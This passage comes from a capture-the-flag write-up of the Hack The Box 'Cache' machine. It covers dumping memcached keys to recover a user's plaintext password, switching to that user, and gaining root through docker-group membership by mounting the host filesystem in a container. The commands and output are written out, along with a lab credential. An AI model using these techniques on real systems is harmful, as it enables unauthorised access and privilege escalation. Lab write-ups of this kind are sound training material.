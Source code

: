 `stats items` reveals slab ID `1`. So we can dump it using `stats cachedump`

> **Here 1 and 0 are the parameters,
1 =** slab ID.
**0 =** It represents the number of keys you want to dump, 0 will dump all the keys present in the slab ID respectively.

I got user `luffy` password `0n3_p1ec3`

```bash
ash@cache:/home$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/home$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home$
```

## Privilege Escalation:

I run my Linux Enumeration script and it reveals

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2019.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2019.png)

That `luffy` is in group docker.

In this case, the user can run a light container with `/etc` mounted in and then get root access in the container.

I used [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) and it also tells the same thing the user must be in docker group and it also tell us  how to get interactive shell.

I already got the Image ID from my enumeration script so

```bash
luffy@cache:/home/ash$ docker run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh
< run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
ea-------------------------------a20
```

We own the box.